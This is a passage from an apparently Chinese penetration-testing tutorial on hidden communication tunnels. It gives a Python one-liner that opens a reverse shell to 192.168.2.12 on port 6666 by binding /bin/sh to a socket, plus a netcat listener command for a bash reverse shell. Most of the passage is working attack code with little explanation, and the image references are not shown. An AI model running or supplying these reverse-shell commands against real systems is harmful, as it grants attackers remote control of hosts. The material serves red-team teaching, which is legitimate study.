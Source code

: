 在客户端执行以下python脚本，反弹shell：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.12",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](./img/隐藏通信隧道基础知识/42.png)

（11）bash反弹shell

服务端监听本地6666端口：

```
nc -lvp 6666
```

![](./img/隐藏通信隧道基础知识/43.png)
